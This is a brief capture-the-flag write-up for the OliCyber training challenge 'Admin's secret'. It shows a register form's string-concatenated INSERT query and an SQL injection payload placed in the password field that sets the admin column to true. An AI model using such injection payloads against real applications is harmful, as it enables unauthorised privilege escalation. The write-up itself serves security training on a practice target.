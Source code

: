 # Admin's secret
[> *Challenge (500)*](https://training.olicyber.it/challenges#challenge-44)

## Solution
As the hint says we need to exploit the register form.

By looking at the register page we can see the SQL query:
```sql
INSERT INTO users(username,password,admin) VALUES ('" . $username . "','" . $password . "',false);
```
```sql
INSERT INTO users(username,password,admin) VALUES ('username', 'password', false);
```
The `admin` field is just a boolean so we can SQL Inject to make it true.
```bash
username = username1230x
password = mypass123',true); --
```
making our sql query:
```sql
INSERT INTO users(username,password,admin) VALUES ('username1230x','mypass123',true); -- ',false);
```

Then we just login and get the flag
